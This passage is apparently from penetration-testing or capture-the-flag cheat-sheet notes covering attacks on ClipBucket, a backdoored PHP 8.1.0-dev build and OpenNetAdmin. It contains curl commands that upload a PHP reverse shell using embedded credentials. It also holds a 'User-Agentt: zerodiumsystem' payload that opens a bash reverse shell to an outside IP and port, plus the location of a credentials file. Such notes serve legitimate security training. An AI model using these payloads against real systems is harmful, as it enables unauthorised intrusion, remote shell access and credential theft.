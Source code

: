 ### ClipBucket

* File upload vulnerability with authentication

```
curl --user developers:9972761drmfsls -F "file=@php_reverse_shell.php" -F "plupload=1" -F "name=php_reverse_shell.php" "http://broadcast.vulnnet.thm/actions/photo_uploader.php"
curl --user developers:9972761drmfsls -F "file=@php_reverse_shell.php" -F "plupload=1" -F "name=php_reverse_shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
curl --user developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

* Site will tell you the MD5 Hash name of the file and the directory it is located. Make sure to add the `.php` extension to the end.

### PHP 8.1.0-dev

* This version of php was backdoored
* Detect with nikto or by capturing the server response in burp
* `X-Powered-By: PHP 8/1/0/dev` --> what you are looking for&#x20;
* Automated POC exploit
* [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)&#x20;
* Manual Exploitation:
* Capture a request in burp suite&#x20;
* Add additional `User-Agentt` header to the request (yes it is supposed to be spelled with two t's)
* Payload:

```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.14.13/9001 0>&1"');
```

### Open Net Admin (ona)

* Metasploit module for CMD injection 18.1.1
* [https://www.exploit-db.com/exploits/47772](https://www.exploit-db.com/exploits/47772)
* Database file with credentials is located here:

```
 /opt/ona/www/local/config/database_settings.inc.php
```

